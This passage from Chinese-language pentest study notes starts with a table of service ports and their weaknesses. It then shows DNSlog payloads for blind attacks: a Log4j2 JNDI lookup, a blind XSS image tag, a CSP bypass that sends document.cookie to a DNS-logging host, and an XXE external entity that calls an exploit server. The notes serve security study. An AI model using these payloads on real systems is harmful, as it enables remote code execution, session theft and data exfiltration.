 | 10000             | Virtualmin/Webmin 服务器虚拟主机管理系统 | 可能存在弱口令                                               |
| 10001/10002       | JmxRemoteLifecycleListener               | 可能存在Tomcat反序列化漏洞(CVE-2016-8735)                    |
| 11211             | Memcache                                 | 未授权访问                                                   |
| 27017,27018       | Mongodb                                  | 未授权访问                                                   |
| 28017             | mongodb                                  | 统计页面                                                     |
| 50000             | SAPManagement  Console                   | 远程代码执行                                                 |
| 50030,50060,50070 | HaDoop                                   | 未授权访问                                                   |

 

# 2.sql注入.业务逻辑漏洞等

## 一.Sql注入部分（重点）

### 1.Dnslog除了可以用于sql注入盲注回显外，还可以用到什么地方？

#### 远程命令执行rce的盲打

`Log4j2`的poc

pyload:

```bash
cores?action=${jndi:ldap://${sys:java.version}.i913n8.ceye.io}
```

#### Xss的盲打

```bash
<img src=http://test.x7sfjd.dnslog.cn/hguone>
```

#### CSP绕过 利用dns预解析绕过

Payload：

```bash
document.querySelector('body').innerHTML += "<link rel='dns-prefetch' href='" + window.btoa(document.cookie.split(/;|=/)[1]) + ".your-dnslog.com'>"
```

#### XXE的盲注利用

XXE盲打（无回显）验证，引用外部实体，可以利用dnslog在平台获取所需要的信息。

曾经用burp自带的Collaborator client利用bp自带的dnslog平台获得xxe盲注的回显。

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a8500b90361c04dc0f44fbe0106009f.web-security-academy.net/exploit"> %xxe;]>
```
